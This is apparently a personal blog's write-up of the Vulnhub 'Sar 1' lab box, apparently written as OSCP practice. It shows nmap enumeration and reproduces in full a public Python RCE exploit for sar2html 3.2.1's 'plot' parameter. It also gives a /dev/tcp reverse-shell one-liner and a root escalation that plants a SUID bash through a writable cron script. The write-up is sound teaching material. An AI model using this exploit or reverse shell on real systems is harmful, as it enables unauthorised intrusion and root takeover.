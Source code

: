 +++
title = "Vulnhub: Sar 1"
date = "2021-05-13"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "sar2html", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
draft = true
+++

<!--more-->
{{< image src="/img/sar1/sar1.png" alt="" position="center" style="border-radius: 8px;" >}}

# Summary

In this box there's only one port open that is running a vulnerable version of sar2html that
we take advantage of to get a low priv shell. For privilege escalation there was a cron job
running as root that was running a script we could write in.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.107
Host is up (0.000040s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:48:00:F5 (Oracle VirtualBox virtual NIC)
```

# Enumeration

## 80 (HTTP)

Using nmap scripts we see the existence of robots.txt

```sh
Nmap scan report for 192.168.56.107
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /robots.txt: Robots file
|_  /phpinfo.php: Possible information file
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
From this we discover sar2HTML.

{{< image src="/img/sar1/sar1-01.png" alt="" position="center" style="border-radius: 8px;" >}}

Visiting this directory I get the version of sar2html as 3.2.1.

{{< image src="/img/sar1/sar1-02.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking on searchsploit, a remote command execution vulnerability exists for this version.

```sh
searchsploit sar2html
```

{{< image src="/img/sar1/sar1-03.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as user

By executing the python script that exploits this RCE vulnerability, we are able to get a reverse shell.

script url: [https://www.exploit-db.com/exploits/49344](https://www.exploit-db.com/exploits/49344)

```
~/Vulnhub/Sar1  python3 49344.py

Enter The url => http://192.168.56.107/sar2HTML/
Command => id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Command => /bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/192.168.56.1/9000+0>%261'
```

{{< image src="/img/sar1/sar1-04.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing some enumeration to achieve some privilege escalation to root or lateral movement to other users
I found a cron job running as root.

{{< image src="/img/sar1/sar1-05.png" alt="" position="center" style="border-radius: 8px;" >}}

While we can't write to this file, the script being executed inside it is writeable.

{{< image src="/img/sar1/sar1-06.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

By writing into write.sh using vi, we can escalate our privileges.

```
#!/bin/sh

cp /bin/bash /var/www/html/suidbash
chmod u+s /var/www/html/suidbash
```

This will create a copy of the bash binary and add suid permissions to it.

Once the cron job executes and creates the binary we can achieve a root shell and read all the flags.

{{< image src="/img/sar1/sar1-07.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

Understanding the exploit script and perform the exploit manually. 

To my surprise, this exploit code was created by a good friend of mine, Musyoka Ian.

```py
# Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution
# Date: 27-12-2020
# Exploit Author: Musyoka Ian
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Ubuntu 18.04.1

#!/usr/bin/env python3

import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()% 
```

According to the script the vulnerable parameter is plot and simply takes in our command and executes it.

When interacting with the application you can select OS, when you pick one the plot parameter is used.

{{< image src="/img/sar1/sar1-08.png" alt="" position="center" style="border-radius: 8px;" >}}

Here we can inject the command we want and execute shell commands. The OS option doesn't matter, anything after
the semi-colon `;` will be executed. For the reverse shell command remember to url encode special chars like I did
above

{{< image src="/img/sar1/sar1-09.png" alt="" position="center" style="border-radius: 8px;" >}}

Shoutout to Musyoka Ian, you can read his blog linked below. He does cool writeups on challenges as well.

[https://musyokaian.medium.com/](https://musyokaian.medium.com/)
